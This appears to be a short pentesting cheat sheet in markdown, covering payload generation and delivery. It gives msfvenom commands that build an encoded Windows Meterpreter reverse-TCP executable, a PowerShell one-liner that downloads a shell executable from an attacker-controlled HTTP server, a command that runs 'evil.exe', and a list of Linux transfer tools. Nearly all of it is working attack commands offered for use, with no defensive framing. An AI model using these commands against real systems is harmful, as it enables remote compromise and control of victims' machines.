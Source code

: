 # list payloads
`msfvenom --list payloads`
# examples
- `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`
- `msfvenom -p <os>/<arch>/<type>/<connectivity> -f <filetype> -o <filename> LHOST=<listen-IP> LPORT=<listen-port>`

# Download payload
## windows
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`

`start-process evil.exe`

### linux
- wget
- curl
- scp
- ftp